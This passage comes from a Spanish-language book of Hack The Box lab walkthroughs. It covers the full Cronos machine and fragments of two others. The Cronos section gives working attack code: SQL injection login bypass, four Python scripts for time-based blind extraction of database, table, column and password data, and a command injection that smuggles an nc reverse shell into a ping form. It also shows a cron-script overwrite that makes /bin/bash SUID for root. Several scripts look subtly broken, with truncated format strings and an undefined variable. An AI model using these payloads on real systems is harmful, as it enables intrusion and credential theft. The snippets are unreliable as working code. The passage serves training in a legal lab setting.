\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un link del servicio

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systemctl}\NormalTok{ link /home/pepper/privesc/privesc.service}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el servicio

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systemctl}\NormalTok{ enable --now /home/pepper/privesc/privesc.service}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\texttt{whoami} -\textgreater{} root ;)

\hypertarget{cronos}{%
\chapter*{Cronos}\label{cronos}}
\addcontentsline{toc}{chapter}{Cronos}

\hypertarget{introduccion-25}{%
\section*{Introduccion}\label{introduccion-25}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 19/08/2021 se llama Cronos.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=E_w8hWAWwTI}{\includegraphics{https://img.youtube.com/vi/E_w8hWAWwTI/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-25}{%
\section*{Enumeracion}\label{enumeracion-25}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-25}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-25}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-25}{%
\subsubsection*{Ping}\label{ping-25}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.13}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-25}{%
\subsubsection*{Nmap}\label{nmap-25}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.13}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.13 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,53,80 10.10.10.13 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
53 & Domain & AXFR - Ataque de transferencia de zona & Conocer algun dominio\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-11}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-11}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-19}{%
\subsubsection*{Whatweb}\label{whatweb-19}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.13}
\end{Highlighting}
\end{Shaded}

Nada interesante aqui

\hypertarget{http-enum-7}{%
\subsubsection*{http-enum}\label{http-enum-7}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.143 -oN webScan}
\end{Highlighting}
\end{Shaded}

Vemos que hay un \texttt{/phpmyadmin}

\hypertarget{analyzando-la-web-con-firefox-1}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-1}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Es la pagina Apache2 por defecto

\hypertarget{analyzando-los-dominios}{%
\subsection*{Analyzando los dominios}\label{analyzando-los-dominios}}
\addcontentsline{toc}{subsection}{Analyzando los dominios}

Como el puerto 53 esta abierto vamos a ver si podemos recuperar dominios con \textbf{nslookup}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nslookup}

\OperatorTok{>}\ExtensionTok{server}\NormalTok{ 10.10.10.13}
\OperatorTok{>}\ExtensionTok{10.10.10.13}
\ExtensionTok{13.10.10.10.in-addr.arpa}\NormalTok{    name = ns1.cronos.htb}
\end{Highlighting}
\end{Shaded}

Vemos un dominio \texttt{cronos.htb} y lo añadimos a nuestro \texttt{/etc/hosts}

Si lanzamos Firefox con la url \texttt{http://cronos.htb} vemos una pagina differente de la pagina apache2 por defecto, lo que
significa que estamos en frente de un \textbf{virtualhost}

Vamos a intentar hacer ataques de transferencia de zona

\hypertarget{vulnerability-assessment-12}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-12}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{axfr}{%
\subsection*{AXFR}\label{axfr}}
\addcontentsline{toc}{subsection}{AXFR}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.13 cronos.htb ns}
\ExtensionTok{dig}\NormalTok{ @10.10.10.13 cronos.htb mx}
\ExtensionTok{dig}\NormalTok{ @10.10.10.13 cronos.htb axfr}
\end{Highlighting}
\end{Shaded}

Aqui vemos que es vulnerable a ataques \textbf{AXFR} y vemos otro dominio \texttt{admin.cronos.htb} que añadimos al \texttt{/etc/hosts}.

Si visitamos esta nueva web con Firefox vemos un panel de inicio de session.

\hypertarget{sql-injection-1}{%
\subsection*{SQL Injection}\label{sql-injection-1}}
\addcontentsline{toc}{subsection}{SQL Injection}

En el UserName si le ponemos la injeccion SQL basica \texttt{\textquotesingle{}\ or\ 1=1-\/-\ -} y le damos a submit, entramos directamente en el panel
de administracion.

Como sabemos que esta vulnerable a injeccion SQL, probamos differentes cosas porque lo que nos interesa es tener usuarios y contrañas.

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{' order by 100-- -}
\StringTok{'} \ExtensionTok{or}\NormalTok{ sleep(5)}\ExtensionTok{--}\NormalTok{ -}
\end{Highlighting}
\end{Shaded}

Vemos que no esta vulnerable a un \textbf{Error Based SQL Injection} pero lo es a un \textbf{Time Based SQL Injection}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{admin}\StringTok{' or sleep(5)-- -}
\StringTok{admin'}\NormalTok{ and sleep(5)}\ExtensionTok{--}\NormalTok{ -}
\end{Highlighting}
\end{Shaded}

Con estos commandos, comprobamos que el usuario admin existe.

Creamos un script en python para encontrar las informaciones con un \textbf{Time Based SQL Injection}

\hypertarget{time-based-sql-injection-autopwn}{%
\subsubsection*{Time Based SQL Injection Autopwn}\label{time-based-sql-injection-autopwn}}
\addcontentsline{toc}{subsubsection}{Time Based SQL Injection Autopwn}

Buscamos en nombre de la database

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\CommentTok{#coding: utf-8}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/index.php"}
\NormalTok{s }\OperatorTok{=} \VerbatimStringTok{r'0123456789abcdef'}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando ataque de fuerza bruta"}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Database"}\NormalTok{)}

\NormalTok{    database }\OperatorTok{=} \StringTok{""}

    
    \ControlFlowTok{for}\NormalTok{ position }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{1}\NormalTok{, }\DecValTok{10}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ s:}
\NormalTok{            p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok{%c}\StringTok{ en la posicion }\SpecialCharTok\NormalTok{ (character, position))}
\NormalTok{            post_data }\OperatorTok{=}\NormalTok{ \{}
                \StringTok{'username'}\NormalTok{: }\StringTok{"admin' and if(substr(database(),}\SpecialCharTok{%d}\StringTok{,1)='}\SpecialCharTok\NormalTok{ (position, character),}
                \StringTok{'password'}\NormalTok{: }\StringTok{'admin'}
\NormalTok{            \}}

\NormalTok{            time_start }\OperatorTok{=}\NormalTok{ time.time()}
\NormalTok{            r }\OperatorTok{=}\NormalTok{ requests.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}
\NormalTok{            time_end }\OperatorTok{=}\NormalTok{ time.time()}

            \ControlFlowTok{if}\NormalTok{ time_end }\OperatorTok{-}\NormalTok{ time_start }\OperatorTok{>} \DecValTok{5}\NormalTok{:}
\NormalTok{                password }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                p2.status(database)}
                \ControlFlowTok{break}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la base de datos se llama \texttt{admin}. Buscamos ahora el nombre de la tabla.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\CommentTok{#coding: utf-8}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/index.php"}
\NormalTok{s }\OperatorTok{=} \VerbatimStringTok{r'0123456789abcdef'}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando ataque de fuerza bruta"}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Table"}\NormalTok{)}

\NormalTok{    table_name }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{for}\NormalTok{ table }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{0}\NormalTok{,}\DecValTok{4}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ position }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{1}\NormalTok{, }\DecValTok{10}\NormalTok{):}
            \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ s:}
\NormalTok{                p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok{%c}\StringTok{ en la posicion }\SpecialCharTok\NormalTok{ (character, position, table))}
\NormalTok{                post_data }\OperatorTok{=}\NormalTok{ \{}
                    \StringTok{'username'}\NormalTok{: }\StringTok{"admin' and if(substr((select table_name from information_schema.tables where table_schema='admin' limit }\SpecialCharTok{%d}\StringTok{,1),}\SpecialCharTok{%d}\StringTok{,1)='}\SpecialCharTok\NormalTok{ (table, position, character),}
                    \StringTok{'password'}\NormalTok{: }\StringTok{'admin'}
\NormalTok{                \}}

\NormalTok{                time_start }\OperatorTok{=}\NormalTok{ time.time()}
\NormalTok{                r }\OperatorTok{=}\NormalTok{ requests.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}
\NormalTok{                time_end }\OperatorTok{=}\NormalTok{ time.time()}

                \ControlFlowTok{if}\NormalTok{ time_end }\OperatorTok{-}\NormalTok{ time_start }\OperatorTok{>} \DecValTok{5}\NormalTok{:}
\NormalTok{                    table_name }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                    p2.status(table_name)}
                    \ControlFlowTok{break}
            \ControlFlowTok{break}
\NormalTok{        table_name }\OperatorTok{+=} \StringTok{" - "}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Ahora que sabemos que hay una tabla \texttt{users}, miramos las columnas.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\CommentTok{#coding: utf-8}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/index.php"}
\NormalTok{s }\OperatorTok{=} \VerbatimStringTok{r'0123456789abcdef'}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando ataque de fuerza bruta"}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Columns"}\NormalTok{)}

\NormalTok{    column_name }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{for}\NormalTok{ column }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{0}\NormalTok{,}\DecValTok{4}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ position }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{1}\NormalTok{, }\DecValTok{10}\NormalTok{):}
            \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ s:}
\NormalTok{                p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok{%c}\StringTok{ en la posicion }\SpecialCharTok{%d}\StringTok{ de la columna numero }\SpecialCharTok\NormalTok{ (character, position, column))}
\NormalTok{                post_data }\OperatorTok{=}\NormalTok{ \{}
                    \StringTok{'username'}\NormalTok{: }\StringTok{"admin' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit }\SpecialCharTok{%d}\StringTok{,1),}\SpecialCharTok{%d}\StringTok{,1)='}\SpecialCharTok\NormalTok{ (column, position, character),}
                    \StringTok{'password'}\NormalTok{: }\StringTok{'admin'}
\NormalTok{                \}}

\NormalTok{                time_start }\OperatorTok{=}\NormalTok{ time.time()}
\NormalTok{                r }\OperatorTok{=}\NormalTok{ requests.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}
\NormalTok{                time_end }\OperatorTok{=}\NormalTok{ time.time()}

                \ControlFlowTok{if}\NormalTok{ time_end }\OperatorTok{-}\NormalTok{ time_start }\OperatorTok{>} \DecValTok{5}\NormalTok{:}
\NormalTok{                    column_name }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                    p2.status(column_name)}
                    \ControlFlowTok{break}
            \ControlFlowTok{break}
\NormalTok{        table_name }\OperatorTok{+=} \StringTok{" - "}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Ahora conocemos las columnas, vamos a por las data.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\CommentTok{#coding: utf-8}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/index.php"}
\NormalTok{s }\OperatorTok{=} \VerbatimStringTok{r'0123456789abcdef'}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando ataque de fuerza bruta"}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Password"}\NormalTok{)}

\NormalTok{    password }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{for}\NormalTok{ user }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{0}\NormalTok{, }\DecValTok{4}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ position }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{1}\NormalTok{, }\DecValTok{50}\NormalTok{):}
            \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ s:}
\NormalTok{                p1.status(}\StringTok{"Posicion numero }\SpecialCharTok{%d}\StringTok{ de la extraccion de password del usuario admin | Caracter }\SpecialCharTok\NormalTok{ (position, character))}
\NormalTok{                post_data }\OperatorTok{=}\NormalTok{ \{}
                    \StringTok{'username'}\NormalTok{: }\StringTok{"admin' and if(substr((select password from users limit }\SpecialCharTok{%d}\StringTok{,1),}\SpecialCharTok{%d}\StringTok{,1)='}\SpecialCharTok\NormalTok{ (user, position, character),}
                    \StringTok{'password'}\NormalTok{: }\StringTok{'admin'}
\NormalTok{                \}}

\NormalTok{                time_start }\OperatorTok{=}\NormalTok{ time.time()}
\NormalTok{                r }\OperatorTok{=}\NormalTok{ requests.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}
\NormalTok{                time_end }\OperatorTok{=}\NormalTok{ time.time()}

                \ControlFlowTok{if}\NormalTok{ time_end }\OperatorTok{-}\NormalTok{ time_start }\OperatorTok{>} \DecValTok{5}\NormalTok{:}
\NormalTok{                    password }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                    p2.status(password)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Aqui vemos que es un hash MD5 y passamos por rainbow tables para crackear la contraseña.

\hypertarget{utilizando-la-web}{%
\subsubsection*{Utilizando la web}\label{utilizando-la-web}}
\addcontentsline{toc}{subsubsection}{Utilizando la web}

La pagina web permite enviar ping a maquinas. Lo intentamos contra nuestra maquina de atacante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos por la web un ping a la 10.10.14.7
\end{enumerate}

Y recibimos la traza.

Miramos si la web esta bien sanitizada mirando si poniendole \texttt{10.10.14.7;\ whoami} no salimos del contexto y es el caso.
Vamos a ganar accesso al systema.

\hypertarget{vuln-exploit-gaining-access-12}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-12}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{autopwn}{%
\subsection*{Autopwn}\label{autopwn}}
\addcontentsline{toc}{subsection}{Autopwn}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ threading}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/index.php"}
\NormalTok{shell_url }\OperatorTok{=} \StringTok{"http://admin.cronos.htb/welcome.php"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ requests.session()}

\NormalTok{    post_data }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'username'}\NormalTok{: }\StringTok{'admin'}\NormalTok{,}
        \StringTok{'password'}\NormalTok{: }\StringTok{'1327663704'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}

\NormalTok{    post_data }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'command'}\NormalTok{: }\StringTok{'ping -c 1'}\NormalTok{,}
        \StringTok{'host'}\NormalTok{: }\StringTok{'10.10.14.7; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.post(shell_url, data}\OperatorTok{=}\NormalTok{post_data)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}
    
    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}
\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

Si lanzamos en script ganamos accesso al systema.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\ExtensionTok{www-data}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-16}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-16}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Tenemos que ver si tenemos que hacer un user pivoting pero como ya tenemos accesso a la flag, no es necessario.

\hypertarget{privilege-escalation-11}{%
\section*{Privilege Escalation}\label{privilege-escalation-11}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-20}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-20}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{uname}\NormalTok{ -a}
\ExtensionTok{lsb_release}\NormalTok{ -a}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Aqui no hay nada interesante, vamos a enumerar el systema por tareas cron

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /dev/shm}
\FunctionTok{ls}
\FunctionTok{touch}\NormalTok{ procmon.sh}
\FunctionTok{chmod}\NormalTok{ +x procmon.sh}
\FunctionTok{nano}\NormalTok{ procmon.sh}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\VariableTok{old_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \VariableTok{new_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}
    \FunctionTok{diff} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$old_process}\StringTok{"}\OperatorTok{)} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$new_process}\StringTok{"}\OperatorTok{)} \KeywordTok{|} \FunctionTok{grep} \StringTok{"[\textbackslash{}>\textbackslash{}<]"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"procmon|command"}
    \VariableTok{old_process=$new_process}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Y lo ejecutamos. Vemos que hay una tarea que ejecuta un script llamado artisan en \textbf{php}. Haciendole un \texttt{ls\ -l} nos damos cuenta que
el proprietario del script es \textbf{www-data}. Imaginamos que el que lanza el script es root. vamos a modificar el script.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"chmod 4755 /bin/bash"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

Esperamos que la tarea se ejecute con \texttt{watch\ -n\ 1\ ls\ -l\ /bin/bash} y pasa a ser SUID

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{lame}{%
\chapter*{Lame}\label{lame}}
\addcontentsline{toc}{chapter}{Lame}

\hypertarget{introduccion-26}{%
\section*{Introduccion}\label{introduccion-26}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 20/08/2021 se llama Lame.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=MNJi4k9uNKQ}{\includegraphics{https://img.youtube.com/vi/MNJi4k9uNKQ/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-26}{%
\section*{Enumeracion}\label{enumeracion-26}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-26}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-26}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-26}{%
\subsubsection*{Ping}\label{ping-26}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.3}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-26}{%
\subsubsection*{Nmap}\label{nmap-26}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.3}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted}
\end{Highlighting}
\end{Shaded}

